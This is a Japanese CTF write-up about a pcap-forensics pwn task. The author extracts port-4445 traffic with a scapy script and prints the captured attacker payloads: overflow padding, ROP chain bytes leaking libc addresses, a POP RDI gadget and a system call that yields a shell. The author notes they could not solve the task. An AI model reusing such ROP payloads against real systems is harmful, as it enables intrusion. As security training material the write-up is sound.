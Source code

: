 # [pwn 491pts] Attack Defence - Evlz CTF
問題文はこんな感じです。
```
Our network was recently breached by some 0-day that we never saw before.
I am providing you with the pcap of the network. Please find out what did they take.
Difficulty estimate: Easy
nc 35.198.113.131 31336
```
pcapファイルが渡されるという今まで見たことが無いパターンです。

Wiresharkで開いてConversationsを見ると、https, sshそしてupnotifypというポートが使われています。
upnotifyp(4445番ポート)の通信を見てみましょう。
適当に1つ選んでFollow TCP Streamすると次のような通信内容でした。
```
read GOT at 0x404020
```
なにやら怪しいです。
とりあえず4445番ポートの通信内容を集めるスクリプトを書きます。
```python
from scapy.all import *
from datetime import datetime

def analyse(pkt):
    if pkt[TCP].dport == 4445 and pkt[TCP].payload:
        print(pkt[TCP].payload)

sniff(offline="log2.pcapng", filter="tcp", store=0, prn=analyse)
```

実在するサービスではなさそうです。
```
b'AAAAAAAAAAAAAAAAAAAAAAAA'
b'read GOT at 0x404020\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00\n'
b'puts PLT at 0x40102c\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\n'
b'main in binary at 0x4011a3\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\xa3\x11@\x00\x00\x00\x00\x00\n'
b'read found at 0x7f76847cf250\nputs found at 0x7f7684747690\nsystem found at 0x7f768471d390\nfree found at 0x7f768475c4f0\nmalloc found at 0x7f768475c130\n'
b'We should be back at the beginning of binary'
b'POP RDI; RET gadget at 0x40124b\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00WM\x86\x84v\x7f\x00\x00\x90\xd3q\x84v\x7f\x00\x00\n'
b"Got shell, let's roll\n"
b'Got flag as evlz{XxXxXxXxXxXxXxXxXxXxXxX}ctf\nClosing connection\n'
```
たぶん同じようなパケットを稼働しているサーバーに送ってやれば良さそう。
いくつかの関数のアドレスが分かっているのでlibcのバージョンも特定できます。

面白そうでしたが残念ながら問題バイナリ, Dockerfileいずれも見つからなかったので解けません。

writeupによると、やはり同じパケットを送ってlibcのロードアドレスを取得し、そこから普通にROPすればshellが取れるようです。

# 感想
問題ファイルだけじゃなくて環境ごと公開してほしいなー。

# 参考文献
[1] [https://github.com/SoulTaku/write-ups/tree/master/evlz/attack_defence](https://github.com/SoulTaku/write-ups/tree/master/evlz/attack_defence)